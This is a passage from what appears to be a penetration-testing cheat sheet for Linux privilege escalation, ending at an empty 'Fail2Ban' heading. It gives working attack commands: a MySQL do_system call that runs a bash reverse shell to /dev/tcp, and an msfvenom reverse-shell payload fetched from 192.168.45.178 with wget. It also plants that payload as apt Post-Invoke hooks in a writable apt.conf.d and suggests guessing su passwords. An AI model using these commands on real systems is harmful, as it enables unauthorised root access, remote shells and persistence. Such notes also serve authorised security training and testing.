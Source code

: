 If MySQL is running as root and you can login, you can elevate privs by writing files such as a revshell and executing them. Also search for privescs for the specific version that is running, "mysql --version".

```bash
select do_system('/bin/bash /tmp/bash.sh');

#!/bin/bash
# bash.sh file
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 
```

Resource: https://www.exploit-db.com/exploits/1518

#### Manual Investigation

Say that you get on a box, and you look at the ports and find multiple things running on the localhost, you want to figure out what these are. If the website is running apache, go into '/etc/apache2/sites-enabled' and read the .conf files to see what's going on.. whether there is a website that you don't know of. See if MySQL is being used for the website, or if it's something else that's worth looking into.

Check all of the .git config files, run git log.

```bash
find / -type d -name ".git" 2>/dev/null
```

If you have access to any source code that you can run as admin or another user, check whether the full path is always specified. If not, you can run it out of a directory that you have write access to and go crazy.

Make sure that you investigate the logs folder whenever you run into a .git. Of course, also run git show and git log (redundant).

#### Don't forget to test 'su' as any other user with shell: without password and with their names as password

#### Writable /etc/apt/apt.conf.d/ Directory

This would trigger with an apt-get update.

```bash
msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=192.168.45.178 LPORT=80 -o shell
wget http://192.168.45.178:8000/shell -O /dev/shm/shell
chmod +x /dev/shm/shell
sudo nc -lvnp 80
echo 'APT::Update::Post-Invoke-Success {"/dev/shm/shell";};' > 99-post-upgrade
echo 'APT::Update::Post-Invoke {"/dev/shm/shell";};' >> 99-post-upgrade
echo 'Dpkg::Post-Invoke {"/dev/shm/shell";};' >> 99-post-upgrade
```

#### If you have LFI and youre on the box, you can place revshell in file and trigger from web to get shell as that user

#### Fail2Ban
